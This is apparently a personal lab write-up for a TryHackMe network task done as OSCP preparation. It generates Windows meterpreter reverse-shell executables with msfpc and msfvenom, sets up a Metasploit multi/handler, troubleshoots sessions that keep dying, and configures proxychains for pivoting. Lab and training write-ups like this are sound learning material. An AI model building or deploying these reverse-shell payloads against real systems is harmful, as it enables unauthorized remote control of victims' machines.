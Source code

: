# Yo Dawg, I heard you like proxies

Firstly to setup a meterpreter shell to then setup the proxychaining required for task I will use a tool I have seen in other github repositories about taking the OSCP. [MSFPC](https://github.com/g0tmi1k/msfpc). Install on a kali linux with:
```bash
apt install -y msfpc
```
or the THM AttackBox
```bash
curl -k -L "https://raw.githubusercontent.com/g0tmi1k/mpc/master/msfpc.sh" > /usr/local/bin/msfpc
chmod 0755 /usr/local/bin/msfpc
```
![msfpcsetup](Screenshots/msfpc.png)
Initially I tried:
```bash
root@ip-10-10-90-140:~# msfpc windows 10.10.90.140
 [*] MSFvenom Payload Creator (MSFPC v1.4.5)
 [i]   IP: 10.10.90.140
 [i] PORT: 443
 [i] TYPE: windows (windows/meterpreter/reverse_tcp)
 [i]  CMD: msfvenom -p windows/meterpreter/reverse_tcp -f exe \
  --platform windows -a x86 -e generic/none LHOST=10.10.90.140 LPORT=443 \
  > '/root/windows-meterpreter-staged-reverse-tcp-443.exe'

 [i] windows meterpreter created: '/root/windows-meterpreter-staged-reverse-tcp-443.exe'

 [i] MSF handler file: '/root/windows-meterpreter-staged-reverse-tcp-443-exe.rc'
 [i] Run: msfconsole -q -r '/root/windows-meterpreter-staged-reverse-tcp-443-exe.rc'
 [?] Quick web server (for file transfer)?: python3 -m http.server 8080
 [*] Done!
```

One thing I am surprised to learn is that it is only meterpreter payloads, which you are only allowed one of in the OSCP, but the otherwise its does awesome automation on a typing intensive task. It solves what its sets out to do and extends user capabilities. I have heard of g0tmi1k from privesc blogs, which are a extremely informative resource.

I then realised while building my [Archive](https://github.com/7RU7H/Archive) Metasploit section that I would need to further configure the LHOST address on the payload because of the Throwback using the inet address so as cool as that tool is, I'll just go it the manual way, but happy that there is a simple automated option.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o shell.exe LHOST=10.50.96.34 LPORT=4444
```

Re-wget-ed the shell.exe and setup msfconsole multi/hander to listen for the connection back. Start a listener, set payload, configure options, bang head off the keys: E X P L O I T
```msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp # corrected this to add x64
set LHOST $LISTENING-IP
set LPORT $LISTENING-PORT
exploit
```

![msfhandler](Screenshots/ydp-metersetup.png)
The output:
```msfconsole
[*] Started reverse TCP handler on 10.50.96.34:4444 
[*] Sending stage (176195 bytes) to 10.200.102.219
[*] 10.200.102.219 - Meterpreter session 1 closed.  Reason: Died
[*] Meterpreter session 1 opened (10.50.96.34:4444 -> 10.200.102.219:50774) at 2022-04-20 20:47:43
```
So I tried regular shell not meterpreter:
```bash
root@ip-10-10-90-140:~#  msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o shell.exe LHOST=10.50.96.34 LPORT=4444
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe
```
Configured the handler:
```msfconsole
# changed the payload
msf5 exploit(multi/handler) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
```
Also downloaded it to `Windows\TEMP` for the global writablity the directory offers, just in case. It hung on this:
```msfconsole
[*] Started reverse TCP handler on 10.50.96.34:4444 
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 10.200.102.219
[*] Command shell session 6 opened (10.50.96.34:4444 -> 10.200.102.219:51027) at 2022-04-20 21:01:59 +0100

msf5 exploit(multi/handler) > sessions -i 6
[*] Starting interaction with 6...

[*] 10.200.102.219 - Command shell session 6 closed.
```

Went back and realised that the previous usage of any msfvenom payload required a tun0 connection:
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o shell.exe`

[meterSUCCESS](Screenshots/yd-meter-success.png)

Now we can continue with the task. Big take away from this is the wonder of pre-setup and ironning out ANY network or system configuration many months before an exam. Also that the troubleshooting and networking I learnt from the pk100 was so helpful in both mindset and in knowledge to solve these problems. Better solve then once or twice now than later.

[meterSUCCESS](Screenshots/yd-autoroute-setup.png)

Configure the /etc/proxychains.conf

```vim
#socks4         127.0.0.1 9050
socks4 127.0.0.1 1080
```
